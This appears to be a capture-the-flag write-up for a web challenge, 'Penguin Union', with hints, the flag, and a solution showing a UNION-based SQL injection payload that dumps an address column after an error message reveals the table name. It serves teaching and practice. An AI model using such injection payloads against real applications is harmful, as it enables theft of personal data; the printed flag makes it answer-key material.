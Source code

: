 # Challenge

**Name:** Penguin Union

**Category:** Vulnerabilities

**Difficulty:** Hard

**Flag:** `UWA{tH4t5_s0Me_b3Z0s_lVl_vN1oN_bUsTin}`

---

## Description

Join the Penguin **UNION** today!

You can see real reasons why other penguins have joined that are stored *securely* on a **SQL database server**.

*Can you figure out a way to leak the **`address`** of the penguins that have registered to join the union?*

---

## Hint 1

You want to dump the column named `address` from the table that is storing the registration details.

---

## Hint 2

Try some characters and see if you get an error message. It will help you figure out what is happening and the name of the table where the flag is.

---

## Solution

First search by a whole bunch of characters including the `'` character. For an example `' this should break` would print the following error message.

```
An error occurred: (sqlite3.OperationalError) near "this": syntax error [SQL: SELECT name,reason FROM registrations WHERE name LIKE '%' this should break%' OR reason LIKE '%' this should break%';] (Background on this error at: https://sqlalche.me/e/20/e3q8)
```

This indicates that the name of the table is called `registrations` and our goal is to dump the `address` column from that table. It also indicates that the web application is vulnerable to SQL injection and a UNION based attack would be able to dump the flag.

```
' UNION SELECT 1,address FROM registrations;--
```